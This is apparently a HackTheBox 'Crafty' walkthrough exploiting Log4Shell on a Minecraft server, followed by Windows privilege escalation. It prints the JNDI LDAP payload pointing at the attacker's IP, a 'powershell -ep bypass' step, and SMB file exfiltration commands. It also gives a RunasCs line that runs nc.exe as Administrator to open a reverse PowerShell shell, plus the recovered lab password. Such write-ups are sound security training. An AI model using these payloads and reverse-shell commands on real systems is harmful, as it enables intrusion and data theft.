


## Reconnaissance

### nmap 

- Top common ports 


- All Ports 


### Web Service 


### Gobuster 


### Summary 

> With enumeration 
> That is a minecraft  service running on this box
> Port 25565 was identified as minecraft.
> And the version is 1.16.5.

### Research 

1. Minecraft vulnerability
> I think the most famous one in recent year is - log4j 
> And version 1.16.5 --> it also is one of affected version  


- [Fixing Log4J in Minecraft Hosting: Foolproof Ways to Secure your Game Server(https://cloudzy.com/blog/minecraft-log4j-exploit/)


- [Minecraft Java Log4j RCE 0-Day Vulnerability](https://shockbyte.com/billing/knowledgebase/471/Minecraft-Java-Log4j-RCE-0-Day-Vulnerability.html)

> Search some exploit for this 

- [(GITHUB)log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)


> By researching how to exploit minecraft log4j vulnerability,
> I found some video shows I have to launch and get into the game then send the payload in message.
> But 

- [CVE-2021-44228 - Log4j Minecraft RCE](https://www.youtube.com/watch?v=nT5-ckkb-i4)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)

> Besides above video, I checked discussion and find that I can also use some minecraft client tool to connect to minecraft server 

1. [(GITHUB)pyCraft(Works One for me)](https://github.com/ammaraskar/pyCraft)
2. [TLAUNCHER – THE BEST MINECRAFT LAUNCHER](https://tlauncher.org/en/)
3. [(GITHUB)MultiMC](https://github.com/MultiMC/Launcher)
	- [Build Instructions](https://github.com/MultiMC/Launcher/blob/develop/BUILD.md)
	- [MultiMC](https://multimc.org/)
## Exploit 

> Summarize above research, I start the following step to exploit.

1. Download the exploit code(log4j-shell-poc) and pyCraft 
   
   


2. Install related library or dependency by pip 

```
pip install -r requirements.txt
```


3.  Check the exploit code, modify the payload to appropriate to Windows
   
   
   
> From 
```
/bin/sh 
```


> To 

```
cmd.exe
```
   
   
   
4. Launch the exploit code (log4j-shell-poc)
```
python poc.py --userip 10.10.16.23 --webport 1336 --lport 4444
```

> It's clearly to see there is a payload which I need to sent to minecraft server

```
${jndi:ldap://10.10.14.22:1389/a}
```


4. Launch pyCraft and wait until connected
   
   > This step will met error several times.
   > So, it's necessary to keep trying again and again
   > And it's also a path to change the VPN location.
```
python start.py
```


> When I get the response string "Connected".
> Send the payload 


> Check the nc listener, and launch the powershell 

```
powershell -ep bypass
```


> Get user flag 


## Privilege Escalation 

> Check current user (svc_minecraft)

```
whoami
```


> Check possible users 

```
net users
```


> Check privilege ability

```
whoami /priv
```


> Check system information


> Check network status 


> Upload winPEAS and launch it


> Check the server directory
> The logs directory has a lot of log compress files


> Find a jar file - playercounter-1.0-SNAPSHOT.jar


> I need to transfer it back to my host.
> So, I launch a smb server 

```
impacket-smbserver smbfolder $(pwd) -smb2support -user kali -password kalikali
```


> Connect to my SMB server (like mount it as drive named m:)

```
net use m: \\10.10.14.22\smbfolder /user:kali kalikali
```


> Copy the jar file to m drive

```
copy playercounter-1.0-SNAPSHOT.jar m:\
```


> Launch java decompiler tool

```
java -jar jd-gui-1.6.6.jar
```


> Then decompiler playercounter-1.0-SNAPSHOT.jar
> I found a password

```
s67u84zKq8IXw
```


> I also confirm that is password from Rcon function


> So far, I got a password, but I'm not sure who belongs it.
> And I don't know what kind of service I can use to login by this password.
> So, I check the video writeup and I found this tool 

- [RunasCs](https://github.com/antonioCoco/RunasCs)

> Upload RunasCs.exe


> Upload nc.exe


> Using RunasCS to execute nc as Administrator

```
.\RunasCs.exe Administrator s67u84zKq8IXw ".\nc.exe 10.10.14.22 1339 -e powershell"
```


> Got system administrator permission


> Get root flag


## Reference 

- [HTB - Crafty](https://www.youtube.com/watch?v=Is4CLFZMiM8)
- [(Discussion)BreachForums_HTB-Crafty](https://breachforums.is/Thread-HTB-Crafty)
- [Official Crafty Discussion](https://forum.hackthebox.com/t/official-crafty-discussion/308043/16)
### Log4J

- [Fixing Log4J in Minecraft Hosting: Foolproof Ways to Secure your Game Server](https://cloudzy.com/blog/minecraft-log4j-exploit/)
- [Minecraft Java Log4j RCE 0-Day Vulnerability](https://shockbyte.com/billing/knowledgebase/471/Minecraft-Java-Log4j-RCE-0-Day-Vulnerability.html)
- [(GITHUB)log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)
- [CVE-2021-44228 - Log4j Minecraft RCE](https://www.youtube.com/watch?v=nT5-ckkb-i4)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)

1. [(GITHUB)pyCraft(Works One for me)](https://github.com/ammaraskar/pyCraft)
2. [TLAUNCHER – THE BEST MINECRAFT LAUNCHER](https://tlauncher.org/en/)
	- [Download TLauncher EN Minecraft (official mirror)](https://tlauncher.co.com/page/8/)
3. [(GITHUB)MultiMC](https://github.com/MultiMC/Launcher)
	- [Build Instructions](https://github.com/MultiMC/Launcher/blob/develop/BUILD.md)
	- [MultiMC](https://multimc.org/)
- [(GITHUB)PyCraft](https://github.com/ammaraskar/pyCraft)
- [Security Vulnerability In Minecraft: Java Edition](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition)
- [(GITHUB)Log4J-Demo](https://github.com/Mattrobby/Log4J-Demo?tab=readme-ov-file)
- [The Scariest Week in Minecraft History](https://www.youtube.com/watch?v=Z22O5uEsF6U)
- [Unveiling the Log4J Exploit: A Ghidra Log4Shell Demo](https://www.toolify.ai/ai-news/unveiling-the-log4j-exploit-a-ghidra-log4shell-demo-391252)
### Privilege Escalation - Transfer 

- [PWK Notes: Post-Exploitation Windows File Transfers with SMB](https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html)
- [(HackTricks)MSFVenom - CheatSheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)
- [Tools - RunAs](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas)
### Java 
- [Kali Linux update-alternatives --config java](https://stackoverflow.com/questions/71716697/kali-linux-update-alternatives-config-java)
- [How to install Java on Kali Linux](https://linuxconfig.org/how-to-install-java-on-kali-linux)
- [How to Install Java OpenJDK8 on Kali Linux Manually](https://www.kalilinux.in/2022/02/how-to-install-java8.html)
- [How to Install JAVA OPENJDK 8 on Kali Linux](https://www.youtube.com/watch?v=T7W0mxbqjdk)
- [How to Find the Java Version in Linux](https://www.javatpoint.com/how-to-find-the-java-version-in-linux)
### Linux Command 

- [GNU / Linux 各種壓縮與解壓縮指令](https://note.drx.tw/2008/04/command.html)
- [Wfuzz](https://infinitelogins.com/2020/09/02/bruteforcing-subdomains-wfuzz/)
- [Pycurl](https://itecnote.com/tecnote/pycurl-is-not-compiled-against-openssl-when-i-trie-to-use-wfuzz-how-to-solve-this-problem/)
### Windows Penetration Test Tools 

- [RunasCs](https://github.com/antonioCoco/RunasCs)
- [Other PT tools](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any)


###### tags: `HackTheBox`